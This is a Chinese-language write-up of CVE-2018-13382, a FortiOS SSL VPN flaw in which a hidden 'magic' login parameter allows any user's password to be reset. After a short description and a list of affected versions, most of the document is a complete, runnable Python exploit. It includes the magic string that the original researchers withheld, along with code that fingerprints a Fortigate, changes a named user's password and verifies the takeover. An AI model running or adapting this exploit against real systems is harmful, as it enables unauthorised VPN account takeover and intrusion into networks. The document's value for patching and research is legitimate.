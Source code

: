 # （CVE-2018-13382）Fortinet FortiOS magic 后门

> 原文：[http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13382.html](http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13382.html)

## 一、漏洞简介

Fortinet FortiOS 是美国飞塔（Fortinet）公司的一套专用于 FortiGate 网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web 内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0 版本至 6.0.4 版本 、5.6.0 版本至 5.6.8 版本和 5.4.1 版本至 5.4.10 版本中的 SSL VPN Web 门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

## 三、复现过程

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![image](img/38a2cfa53a9ada1c80cd656916e96e85.png)

根据我们的调查，仍有大量的 Fortigate SSL VPN 缺少补丁。因此，考虑到其严重性，我们不会透露 magic 字符串。但是，[CodeWhite 的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的 Fortigate！

> Critical vulns in [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc^tfw) reversed & exploited by our colleagues [@niph_](https://twitter.com/niph_?ref_src=twsrc^tfw) and [@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc^tfw) - patch your [#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc^tfw) asap and see the [#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc^tfw) talk of [@orange_8361](https://twitter.com/orange_8361?ref_src=twsrc^tfw) and [@mehqq_](https://twitter.com/mehqq_?ref_src=twsrc^tfw) for details (tnx guys for the teaser that got us started) [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
> 
> — Code White GmbH (@codewhitesec) [2019 年 7 月 2 日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc^tfw)

### poc

[https://github.com/ianxtianxt/CVE-2018-13382](https://github.com/ianxtianxt/CVE-2018-13382)

```
$ python CVE-2018-13382.py  -h
Usage: CVE-2018-13382.py [options]

Options:
  -h, --help   show this help message and exit
  -i IP        e.g. 127.0.0.1:10443
  -u USERNAME  
  -p PASSWORD 
```

```
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True

userAgent=generate_user_agent()
username=""
newpassword=""
ip=""

def setColor(message, bold=False, color=None, onColor=None):
    from termcolor import colored, cprint
    retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
    return retVal

def checkIP(ip):
    try:
        url = "https://"+ip+"/remote/login?lang=en"
        headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        r=requests.get(url, headers=headers, verify=False)
        if r.status_code==200 and "<title>Please Login</title>" in r.text:
            return True
        else:
            return False
    except requests.exceptions.ConnectionError as e:
        print e
        return False

def changePassword(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
        return True
    else:
        return False

def testLogin(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
            return True
    else:
        return False

parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
    print "[!] Please provide the ip (-i), username (-u) and password (-p)"
    sys.exit()
if options.username:
    username=options.username
if options.password:
    newpassword=options.password
if options.ip:
    ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
    print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
    if changePassword(ip,username,newpassword)==True:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")    
        if testLogin(ip,username,newpassword)==True:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
            print "************** Enjoy your new credentials **************\n"
        else:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
    else:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
else:
    print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red") 
```

